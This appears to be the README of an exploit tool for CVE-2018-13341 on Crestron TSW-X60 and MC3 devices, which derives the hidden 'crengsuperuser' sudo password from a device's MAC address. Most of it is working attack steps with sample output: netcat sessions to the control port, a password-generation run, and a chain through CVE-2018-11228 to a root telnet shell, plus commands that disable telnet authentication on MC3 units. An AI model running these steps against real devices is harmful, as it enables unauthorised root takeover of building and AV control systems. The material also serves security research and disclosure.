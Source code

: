 crestron_getsudopwd
===================

Based on [Ricky Lawshae](https://github.com/headlesszeke) discovery on Crestron TSW-X60 and MC3 devices, this tool aims to exploit the [CVE-2018-13341](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-13341). Using the MAC address of the targeted device, you can recover the password of the *"crengsuperuser"* hidden account which has elevated privileges and allow you to run **SUDO** commands.

## Description

On Crestron **TSW-X60** < 2.001.0037.001 and **MC3** < 1.502.0047.00, the passwords for special sudo accounts may be calculated using information accessible to those with regular user privileges. Attackers could decipher these passwords, which may allow them to execute hidden API calls and escape the CTP console sandbox environment with elevated privileges.

The Crestron Toolbox Protocol (CTP) can be connected to by accessing port **41795** on the TSW-XX60 device. Then, you can use the `estat` command to get the MAC address of the device:

```bash
$ nc -C w.x.y.z 41795
TSW-760 Control Console

TSW-760> estat

The EST command has been made obsolete. Please use IPCONFIG instead.
Ethernet Adapter [XYZ]:
	Link Status ....... : OK
	DHCP .............. : ON
	MAC Address ....... : 00.XX.XX.XX.XX.XX
	IP Address ........ : [removed]
	Subnet Mask ....... : [removed]
	IPV6 Address ...... : [removed]
	Default Gateway ... : [removed]


	DNS Servers ........ : [removed]    | DHCP      |
	                       [removed]    | DHCP      |
```

## Requirements

This tool requires the [cryptography](https://cryptography.io/en/latest/) module.

```bash
$ pip3 install cryptography
```
**OR**
```bash
$ pip3 install -r requirements.txt
```

## Getting Started

```bash
usage: crestron_getsudopwd.py [-h] [-m MAC]

Tool to generate Crestron hidden accounts passwords

optional arguments:
  -h, --help         show this help message and exit
  -m MAC, --mac MAC  Target MAC address (w/o colons or dots)


# Example
$ python3 crestron_getsudopwd.py -m aabbccddeeff
[*] Device MAC address: AABBCCDDEEFF
[*] Password for 'crengsuperuser': RgXkA6Q415puxN0t
```

## Exploiting the CVE-2018-11228

The [CVE-2018-11228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11228) allows unauthenticated RCE via Bash Shell Service in Crestron Terminal Protocol (*CTP*). After getting the password of the *"crengsuperuser"* hidden account you can get a **root** access on the underlying Linux box.

```bash
$ nc -C w.x.y.z 41795

TSW-760 Control Console

TSW-760> TELNETPORT OFF
Telnet Port: Off
TSW-760> SUDO RESTARTSERVICE telnetd_debug
Username: crengsuperuser
Password: **************

Service telnetd_debug restarted

TSW-760>
```

Then, in a new shell, you can get **root** access on the box.

```bash
$ telnet w.x.y.z

bash-3.2# whoami
root
```

> **Note :** This example is for **TSW** devices. The process is slightly different for **MC3** devices. You have to use the following commands to enable the shell: `SUDO -SN:crengsuperuser -SP:password REGEDIT \\comm\\telnetd addval UseAuthentication DWORD 0` then, `SUDO -SN:crengsuperuser -SP:password LAUNCH \\windows\\services.exe /params start tel0:`

## Resources

Here are some interesting resources related to this vulnerability :

- [Security Advisory Regarding Crestron TSW-XX60 Touch Panel Devices](https://resources.securitycompass.com/blog/security-advisory-regarding-crestron-tsw-xx60-touch-panel-devices-2)
- [Ricky "HeadlessZeke" Lawshae - Github](https://github.com/headlesszeke/defcon26-materials)
- [Hacking Crestron IoT Automation Systems - DEFCON 26](https://media.defcon.org/DEF%20CON%2026/DEF%20CON%2026%20presentations/DEFCON-26-Lawshae-Who-Controls-the-Controllers-Hacking-Crestron.pdf)
